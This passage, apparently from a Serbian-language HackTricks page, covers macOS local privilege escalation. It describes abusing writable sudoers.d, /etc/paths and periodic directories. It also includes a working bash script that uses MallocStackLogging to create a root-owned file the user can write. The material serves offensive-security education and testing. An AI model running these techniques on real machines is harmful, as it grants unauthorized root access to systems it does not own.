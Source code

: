 ```xml
<true/>
</dict>
</plist>
```

### Generisanje skripte `/Applications/Scripts/privesc.sh` sa **komandama** koje želite da pokrenete kao root.

### Datoteka Sudoers

Ako imate **proizvoljan zapis**, možete kreirati datoteku unutar fascikle **`/etc/sudoers.d/`** koja vam dodeljuje **sudo** privilegije.

### Putanje datoteka

Datoteka **`/etc/paths`** je jedno od glavnih mesta koje popunjava promenljivu okruženja PATH. Morate biti root da biste je prepisali, ali ako skripta iz **privilegovanog procesa** izvršava neku **komandu bez punog puta**, možda ćete moći da je **preuzmete** modifikujući ovu datoteku.

Takođe možete pisati datoteke u **`/etc/paths.d`** da učitate nove fascikle u promenljivu okruženja `PATH`.

## Generisanje datoteka sa dozvolom pisanja kao drugi korisnici

Ovo će generisati datoteku koja pripada root-u i koju mogu da pišem ja ([**kod odavde**](https://github.com/gergelykalman/brew-lpe-via-periodic/blob/main/brew\_lpe.sh)). Ovo takođe može raditi kao privesc:

```bash
DIRNAME=/usr/local/etc/periodic/daily

mkdir -p "$DIRNAME"
chmod +a "$(whoami) allow read,write,append,execute,readattr,writeattr,readextattr,writeextattr,chown,delete,writesecurity,readsecurity,list,search,add_file,add_subdirectory,delete_child,file_inherit,directory_inherit," "$DIRNAME"

MallocStackLogging=1 MallocStackLoggingDirectory=$DIRNAME MallocStackLoggingDontDeleteStackLogFile=1 top invalidparametername

FILENAME=$(ls "$DIRNAME")
echo $FILENAME
```

## Reference

* [https://theevilbit.github.io/posts/exploiting\_directory\_permissions\_on\_macos/](https://theevilbit.github.io/posts/exploiting\_directory\_permissions\_on\_macos/)

<details><summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
